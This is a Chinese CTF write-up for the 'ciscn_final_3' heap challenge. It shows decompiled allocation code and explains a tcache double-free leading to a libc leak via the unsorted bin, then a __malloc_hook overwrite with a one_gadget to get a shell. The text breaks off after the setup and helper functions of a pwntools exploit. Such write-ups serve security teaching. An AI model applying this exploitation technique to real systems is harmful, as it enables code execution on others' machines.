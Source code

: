 但是在进行分配时，对我们输入的size进行了限制，不能大于0x78，在有tcache的情况下，free后size小于0x400时不会进入unsortbin中，于是我们只能想办法修改chunk的size位了。

```
unsigned __int64 sub_CE1()
`{`
  __int64 v0; // rax
  __int64 v1; // rax
  unsigned int v2; // ebx
  __int64 v3; // rax
  size_t size; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  v0 = std::operator&lt;&lt;&lt;std::char_traits&lt;char&gt;&gt;(&amp;std::cout, "input the index");
  std::ostream::operator&lt;&lt;(v0, &amp;std::endl&lt;char,std::char_traits&lt;char&gt;&gt;);
  std::istream::operator&gt;&gt;(&amp;std::cin, (char *)&amp;size + 4);
  if ( *((_QWORD *)&amp;unk_2022A0 + HIDWORD(size)) || HIDWORD(size) &gt; 0x18 )
    exit(0);
  v1 = std::operator&lt;&lt;&lt;std::char_traits&lt;char&gt;&gt;(&amp;std::cout, "input the size");
  std::ostream::operator&lt;&lt;(v1, &amp;std::endl&lt;char,std::char_traits&lt;char&gt;&gt;);
  std::istream::operator&gt;&gt;(&amp;std::cin, &amp;size);
  if ( (unsigned int)size &lt;= 0x78 )
  `{`
    v2 = HIDWORD(size);
    *((_QWORD *)&amp;unk_2022A0 + v2) = malloc((unsigned int)size);
    v3 = std::operator&lt;&lt;&lt;std::char_traits&lt;char&gt;&gt;(&amp;std::cout, "now you can write something");
    std::ostream::operator&lt;&lt;(v3, &amp;std::endl&lt;char,std::char_traits&lt;char&gt;&gt;);
    sub_CBB(*((_QWORD *)&amp;unk_2022A0 + HIDWORD(size)), (unsigned int)size);
    puts("OK!");
    printf("gift :%p\n", *((const void **)&amp;unk_2022A0 + HIDWORD(size)));
  `}`
  return __readfsqword(0x28u) ^ v6;
`}`
```

先分配一系列chunk，使其size加起来超过0x420，然后利用double free将chunk分配到chunk0处，修改chunk0的size位，这时free掉chunk0和chunk1，chunk0就不会进入tcache了，而是进入unsortbin中，然后我们分配0x78的大小，使得剩下的free chunk的fd指针刚好在chunk1的fd指针处，然后申请一块chunk，再申请相同大小chunk，就分配到了unsortbin的bins头处，就泄露出libc的基址了。

之后再利用double free修改 `__malloc_hook` 为one_gadget，即可getshell。

exp:

```
from pwn import *

context(log_level='debug', arch='amd64', os='linux')

io = process('./ciscn_final_3', env=`{`"LD_PRELOAD":"./libc.so.6"`}`)
libc = ELF('./libc.so.6')

def add(index, size, content):
    io.sendlineafter('&gt; ', str(1))
    io.sendlineafter('index\n', str(index))
    io.sendlineafter('size\n', str(size))
    io.sendlineafter('something', content)
    io.recvuntil('gift :')
    return int(io.recvline()[2:],16)

def delete(index):
    io.sendlineafter('&gt; ', str(2))
    io.sendlineafter('index\n', str(index))

```